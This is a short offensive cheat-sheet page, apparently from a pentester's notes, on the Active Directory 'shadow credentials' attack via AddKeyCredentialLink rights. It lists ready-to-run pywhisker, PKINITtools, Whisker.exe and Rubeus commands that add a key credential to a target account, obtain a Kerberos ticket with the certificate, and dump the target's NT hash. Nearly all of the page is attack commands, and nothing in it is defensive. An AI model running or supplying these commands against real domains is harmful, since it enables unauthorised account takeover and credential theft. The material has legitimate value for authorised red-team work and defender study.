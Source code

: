 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["AddKeyCredentialLink", "active driectory", "ad", "Windows", "shadow credentials", "whisker", "pywhisker"]
---
```


---
### Privesc #1: Shadow credentials (From Linux)

[pywhisker](https://github.com/ShutdownRepo/pywhisker)

#### 0. Pre-check \[optional\]

```bash
python3 pywhisker.py --action list -d <DOMAIN> -u <CURRENT_USER> -p <PASSWORD> --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

#### 1. Add shadow credentials

```bash
python3 pywhisker.py --action add -d <DOMAIN> -u <CURRENT_USER> -p <PASSWORD> --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

<br>

```bash
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request TGT using PFX file

[PKINITtools](https://github.com/dirkjanm/PKINITtools)

```bash
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass <PFX_PASSWORD> <DOMAIN>/<USERNAME> <USERNAME>.ccache -dc-ip <DC>
```

#### 3. Import ticket

```bash
export KRB5CCNAME=<USERNAME>.ccache
```

#### 4. Get NT hash

```bash
python3 getnthash.py <DOMAIN>/<USERNAME> -key <AS-REP_encryption_key>
```

### Privesc #1: Shadow credentials (From Windows)

[Whisker.exe](https://github.com/eladshamir/Whisker)

#### 0. Pre-check \[optional\]

```powershell
.\Whisker.exe list /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC>
```

#### 1. Add shadow credentials

```powershell
.\Whisker.exe add /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC> /password:<PASSWORD>
```

#### 2. Request TGT using PFX file and get NT hash

```powershell
.\rubeus.exe asktgt /user:<TARGET_USER> /certificate:<BASE64_CERT> /password:<PASSWORD> /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

<br>
